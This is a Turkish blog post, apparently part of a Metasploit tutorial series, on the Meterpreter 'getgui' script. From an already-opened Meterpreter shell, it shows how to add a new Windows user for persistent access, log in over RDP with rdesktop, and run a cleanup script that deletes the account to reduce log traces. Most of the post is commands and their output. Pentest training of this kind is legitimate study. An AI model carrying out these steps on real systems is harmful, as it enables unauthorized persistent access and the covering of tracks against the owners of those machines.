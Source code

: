 ```yaml
---
draft: false

title:  'MSF Remote Desktop Modülü'
date: '2017-05-05T13:30:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için\_getgui\_komutu oldukça kullanışlıdır." 
 
url:  /tr/msf-remote-desktop-modulu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için `getgui` komutu oldukça kullanışlıdır.



Bu yazımızda `getgui` komutunu kullanarak sistemde bir kullanıcı oluşturup ardından `rdesktop` komutu ile bu bilgisayara nasıl bağlanabileceğimizi göreceğiz.



## Uzak Masaüstü Bağlantısı



Hedef bilgisayarda Meterpreter shell açtığınızı varsayıyoruz. Şimdi işe `getgui` komutunu kullanarak görsel bağlantı sağlamak için gerekli olan kullanıcı adı ve parolaya ihtiyacımız var. Böyle bir kullanıcı adı ve parolası oluşturduğunuzda kalıcılık sağlamış olursunuz.



##  Aracı



Öncelikle `getgui` yardım başlıklarına bakalım.


```bash
meterpreter **&gt;** run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```



##  Kullanıcı Ekleme



Genel olarak kullanımda `-u` kullanıcı adını, `-p` parolayı belirtmek için kullanılır. `getgui` komutunu aşağıdaki örneğe benzer şekilde kullandığınızda sisteme yeni bir kullanıcı eklemiş olursunuz.


```bash
meterpreter **&gt;** run getgui -u loneferret -p password
**[*********]** Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
**[*********]** Carlos Perez carlos_perez@darkoperator.com
**[*********]** Language detection started
**[*********]**   Language detected: en_US
**[*********]** Setting user account **for **logon
**[*********]**   Adding User: loneferret with Password: password
**[*********]**   Adding User: loneferret to local group ''
**[*********]**   Adding User: loneferret to local group ''
**[*********]** You can now login with the created user
**[*********]** For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter **&gt;**
```



##  Bağlantısı



Artık kullanıcı oluşturuldu. Aynı ağda bulunan başka bir bilgisayardan, bu kullanıcı adı ve parolayı kullanarak uzak masaüstü bağlantısı yapabilirsiniz.


```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```



## Log Temizleme



Hedef sistemde ne kadar çok oynama yaparsanız, log kayıtlarına kaydedilme ihtimaliniz de o kadar artar. Bu sebeple mümkün olduğunca yetkisiz işlem yapmamalı veya gereken yerlere müdahale etmekle yetinmelisiniz.



`getgui` ile oluşturduğunuz kullanıcı ve oturum bilgilerini log kayıtların temizlemek isteyebilirsiniz. Bunun için aşağıdaki komut örneği işinize yarayacaktır. Örnekte kullanılan `/root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc` dosyasının en güncel halini yine aynı klasör içinden kontrol edebilirsiniz.


```bash
meterpreter **&gt;** run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
**[*********]** Running Command List ...
**[*********]**   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter **&gt;**```
